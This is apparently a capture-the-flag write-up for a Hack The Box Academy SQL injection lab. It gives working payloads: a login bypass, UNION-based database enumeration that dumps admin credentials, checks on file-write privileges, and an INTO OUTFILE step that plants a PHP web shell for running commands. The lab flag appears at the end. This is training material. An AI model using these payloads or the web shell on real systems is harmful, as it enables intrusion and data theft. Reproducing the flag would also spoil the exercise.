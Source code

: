 ﻿---
sticker: lucide//database-backup
---
The company`Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

![Pasted image 20250203155825.png](../../../IMAGES/Pasted%20image%2020250203155825.png)

# Bypassing the login page
---

First thing we face is the login page, we can begin this assessment by checking the source code: `CTRL+U`:

![Pasted image 20250203155958.png](../../../IMAGES/Pasted%20image%2020250203155958.png)

They haven't forgotten about any credentials or anything related, next thing in mind is trying the most simple SQLI payload:

```
' OR '1'='1'-- -
```

We can try this in the username section:

![Pasted image 20250203160114.png](../../../IMAGES/Pasted%20image%2020250203160114.png)

To our surprise, we were able to successfully log in:

![Pasted image 20250203160137.png](../../../IMAGES/Pasted%20image%2020250203160137.png)

# Database enumeration
---

We can go along with our roleplay, this part is not strictly related to the path intended to obtain the flag, but we can take advantage of the roleplay relating the company assessment and enumerate the database a little bit.

We are inside a dashboard panel, nothing seems off but the first thing we can notice is a search bar on the top right of the screen:

![Pasted image 20250203160237.png](../../../IMAGES/Pasted%20image%2020250203160237.png)

From previous modules, we found the way to enumerate the database, we can try the following:

## Columns number
---

We can enumerate the number of columns by using `ORDER BY`:

```
' order by 1-- -
```

We need to increase the number until we get an error specifying we're off the number of columns, let's automatize this by sending the request to burp's intruder and using it in the following way:

![Pasted image 20250203160644.png](../../../IMAGES/Pasted%20image%2020250203160644.png)



![Pasted image 20250203160804.png](../../../IMAGES/Pasted%20image%2020250203160804.png)

After checking the responses we can see the following:

![Pasted image 20250203161026.png](../../../IMAGES/Pasted%20image%2020250203161026.png)

Error message starts in `6`, so, the number of columns is `5`.

Knowing this, we can start next step.

## Union Injection
---

We can use the following to check if the Union Injection is working:

```sql
cn' UNION select 1,@@version,3,4,5-- -
```

We are using this since we know the number of columns, we'll get the following output:

![Pasted image 20250203161321.png](../../../IMAGES/Pasted%20image%2020250203161321.png)

So it indeed works, now we can begin to read the database:

```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We get the following:

![Pasted image 20250203161420.png](../../../IMAGES/Pasted%20image%2020250203161420.png)

The `backup` table seems interesting, we can check it out:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
```

![Pasted image 20250203161536.png](../../../IMAGES/Pasted%20image%2020250203161536.png)

We see the following, `admin_bk`, we can enumerate the columns in `admin_bk` using this:

```sql
cn' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='backup' AND TABLE_NAME='admin_bk'-- -
```

We will see the following:

![Pasted image 20250203162243.png](../../../IMAGES/Pasted%20image%2020250203162243.png)

Got `username` and `password`, let's read it:

```sql
cn' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```

![Pasted image 20250203162347.png](../../../IMAGES/Pasted%20image%2020250203162347.png)

Got credentials:

```ad-important
`admin`:`Inl@n3_fre1gh7_adm!n`
```

# Now, Let's go for our flag
---

Nice, this was just an scenario to enumerate the risks of this vulnerability on the system, since in the roleplay we are doing an assessment for a company, it was important to check the enumeration part.

For our flag, we can simply try to upload a webshell in the following way.

## Checking our write privileges
---

We can check if we have high privileges with this:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -
```

![Pasted image 20250203163116.png](../../../IMAGES/Pasted%20image%2020250203163116.png)

We can check we got `Y`, which stands for yes, meaning we have privileges, in order to write files, three conditions must be there:

```ad-important
1. User with`FILE` privilege enabled
2. MySQL global`secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
```

Let's check if `secure_file_priv` variable is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![Pasted image 20250203163254.png](../../../IMAGES/Pasted%20image%2020250203163254.png)

Value is empty, which means it is not enabled.

We can test writing with the following:

```sql
' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```

If we visit `/proof.txt`, we can check the following:

![Pasted image 20250203163428.png](../../../IMAGES/Pasted%20image%2020250203163428.png)

We've written successfully, we can now write our webshell in the following way:

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/webshell.php'-- -
```

We can confirm it worked by going to:

`http://IP:PORT/dashboard/webshell.php?0=id`

![Pasted image 20250203164153.png](../../../IMAGES/Pasted%20image%2020250203164153.png)

Let's list the `/` directory: `ls+/`

![Pasted image 20250203164320.png](../../../IMAGES/Pasted%20image%2020250203164320.png)


We can see the flag, we can simply read it by using `cat+/flag_cae1dadcd174.txt`

![Pasted image 20250203164435.png](../../../IMAGES/Pasted%20image%2020250203164435.png)

Got our flag: `528d6d9cedc2c7aab146ef226e918396`


![Pasted image 20250203164504.png](../../../IMAGES/Pasted%20image%2020250203164504.png)

